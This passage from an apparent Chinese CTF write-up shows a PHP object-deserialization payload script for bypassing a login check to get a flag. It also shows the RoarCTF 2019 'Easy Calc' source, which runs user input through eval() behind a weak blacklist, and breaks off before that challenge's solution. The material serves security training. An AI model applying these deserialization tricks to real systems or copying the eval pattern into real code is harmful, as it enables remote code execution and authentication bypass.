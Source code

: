 ```php
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

反序列化

```php
<?php

class Name{
    private $username = 'admin';
    private $password = '100';
}

echo urlencode(serialize(new Name()));

?>
```

然后把属性数量改一下, 提交得到 flag

## [RoarCTF 2019]Easy Calc

右键源代码

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208211743852.png)

calc.php

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```
